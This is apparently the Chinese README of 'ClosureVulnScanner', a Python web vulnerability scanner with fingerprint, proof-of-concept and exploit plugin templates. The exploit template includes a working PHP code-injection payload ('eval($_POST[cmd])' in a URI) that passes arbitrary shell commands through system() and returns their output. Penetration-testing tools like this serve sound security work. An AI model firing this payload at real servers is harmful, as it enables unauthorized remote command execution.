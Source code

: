<h1 align="center">CVS - ClosureVulnScanner</h1>
<p align="center">
  基于Python的Web综合漏洞扫描器,名字取自<b>Arknights® Closure</b>
  <br><br>
  <a href='https://blog.ysneko.com'><img src="https://img.shields.io/static/v1?label=Powered%20by&message=Y5neKO&color=green" alt="Author"></a>
  <a href='https://www.python.org/'><img src="https://img.shields.io/static/v1?label=Python&message=3.8.0&color=yellow" alt="Python"></a>
  <br><br>
  <a href="#">
    <img src="https://img.shields.io/badge/Supported%20by-Alipay🈲%20%E2%86%92-gray.svg?colorA=655BE1&colorB=4F44D6&style=for-the-badge" alt="支付宝"/>
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Supported%20by-WechatPay🈲%20%E2%86%92-gray.svg?colorA=61c265&colorB=4CAF50&style=for-the-badge" alt="微信支付"/>
  </a>
  <br><br>
  <a>———— </a>
  <br>
  <a>———— </a>
  <br><br>
  <img src="Closure.png" alt="Closure" style="zoom:50%;" />
</p>


## CVS - ClosureVulnScanner

- **v0.0**: 目前正在开发中，广泛征求意见.
- **v0.1**: 实现了基础功能，包括指纹、exp、poc、多线程以及代理等功能.


## 默认配置
`Python 3_8_0`  |  `PyCharm 2023.2.3`  |  `Windows 11`  |  `UTF-8`


## 版本&更新日志
**版本** v0.1

- *2023.10.26* | First init.
- *2023.11.01* | v0.1版本发布.



## 使用说明

```sh
root#
-> python ClosureVulnScanner.py -h

    ,ad8888ba,   88
   d8"'    `"8b  88
  d8'            88
  88             88   ,adPPYba,   ,adPPYba,  88       88  8b,dPPYba,   ,adPPYba,
  88             88  a8"     "8a  I8[    ""  88       88  88P'   "Y8  a8P_____88
  Y8,            88  8b       d8   `"Y8ba,   88       88  88          8PP"
   Y8a.    .a8P  88  "8a,   ,a8"  aa    ]8I  "8a,   ,a88  88          "8b,   ,aa
    `"Y8888Y"'   88   `"YbbdP"'   `"YbbdP"'   `"YbbdP'Y8  88           `"Ybbd8"'

                                                                           By Y5neKO :)

欢迎使用Closure Vulnerability Scanner
Github: https://github.com/Y5neKO

usage: ClosureVulnScanner.py [-h] [-u URL] [-e {identify,scan,exp}] [--exp EXP_NAME] [--cmd CMD] [-t TIMEOUT] [--proxy PROXY] [-o OUTPUT]
                             [--list LIST_POC_NAME] [--add-poc ADD_POC_NAME] [--add-exp ADD_EXP_NAME]

使用帮助

optional arguments:
  -h, --help            show this help message and exit

扫描参数:
  -u URL                目标url, example: http(s)://www.baidu.com/
  -e {identify,scan,exp}
                        指定操作类型, 默认为资产识别。identify:资产识别 | scan:漏洞扫描 | exp:漏洞利用
  --exp EXP_NAME        指定exp模块, 使用exp目录内插件
  --cmd CMD             指定exp模块命令执行
  -t TIMEOUT            设置超时时间(ms), 默认5000ms
  --proxy PROXY         使用代理, 目前支持Socks,HTTP; 格式:{socks|http}://ip_addr:port
  -o OUTPUT             输出扫描结果到指定路径

拓展参数:
  --list LIST_POC_NAME  列出已经加载的poc插件
  --add-poc ADD_POC_NAME
                        添加poc插件
  --add-exp ADD_EXP_NAME
                        添加exp插件
```



## 目录及功能描述

`core`: 核心功能目录

`exp`: 漏洞利用模块插件目录

`ez_poc`: 简单发包型poc验证模块插件目录

`finger`: 指纹信息目录

`log`: 程序日志目录

`poc`: 复杂poc验证模块插件目录



## 指纹模块编写规范

**添加方式**：

在`finger/finger.json`文件内的AssetName字段内增加即可

```json
{
  "AssetName": {}
}
```

**编写规范**：

```json
"资产名称": {
      "description": "指纹描述",
      "payload": {
        "method": "请求协议",
        "uri": "请求uri",
        "headers": {
          "头部字段1": "头部键值1"
        },
        "body": {
            "请求字段1": "请求键值1"
        }
      },
      "keywords": "验证关键字，支持正则表达式"
    }
```



## POC模块编写规范

### 简单POC模块

仅需要发包就可以验证的poc

**添加方式**：

在`ez_poc/ez_poc.json`文件内的PocName字段内增加即可

```json
{
  "PocName": {}
}
```

**编写规范**：

```json
"漏洞名称": {
      "description": "漏洞描述",
      "payload": {
        "method": "请求协议",
        "uri": "uri路径",
        "headers": {
          "头部字段1": "头部键值1"
        },
        "body": {
            "请求字段1": "请求键值1"
        }
      },
      "keywords": "验证关键字，支持正则表达式"
    }
```

### 复杂POC模块

需要经过复杂逻辑才能验证的poc

**添加方式**：

将python模块文件添加到poc目录

- 文件名规范：`资产名称_漏洞名称.py`
- 执行导入命令，写入poc索引文件：`python CVS.py --add-poc {模块名，必须和模块文件保持一致}`

**编写规范**：

```python
# 需要自行导入所需要包
import XXX

# 函数定义为 run(url, timeout)
def run(url, timeout):
    """
    参数描述
    @param url: 目标地址
    @param timeout: 超时时间
    @return result: 一个包括所有返回结果的列表
    """
    result = {
        'name': '漏洞名称',
        'vulnerable': False,	# 漏洞验证成功标识
        'method': None,			# 漏洞请求协议
        'url': None,			# 验证目标地址
        'payload': None			# 验证payload
    }
    """
    自定义代码段，根据编写逻辑，赋值并返回结果即可
    """
    return result
```



## EXP模块编写规范

用于漏洞利用

将python模块文件添加到exp目录

- 文件名规范：`资产名称_漏洞名称.py`
- 执行导入命令，写入exp索引文件：`python CVS.py --add-exp {模块名，必须和模块文件保持一致}`

```python
# 需要自行导入所需要包
import XXX

# 函数定义为 run(url, cmd)
def run(url, cmd):
    """
    参数描述
    @param url: 目标地址
    @param cmd: 指定命令执行，就算无法直接执行命令，也需要定义形参
    @return {bool, string}: 执行成功标识和返回结果，用于命令回显，无回显自行说明即可；命令回显返回结果需用“{{{{{回显}}}}}”格式包裹，用于从响应中识别命令回显结果
    """
    payload = r'/index.php?s=a/b/c/${@print(eval($_POST[cmd]))}'
    payload = urllib.parse.urljoin(url, payload)
    response = requests.post(payload, data={"cmd": "echo '{{{{{';system('" + str(cmd) + "');echo '}}}}}';"})
    if response.status_code == 200:
        return True, response.text
    else:
        return False, "利用失败"
```



## 贡献者

@Y5neKO




## 使用许可
[MIT](LICENSE) © Y5neKO
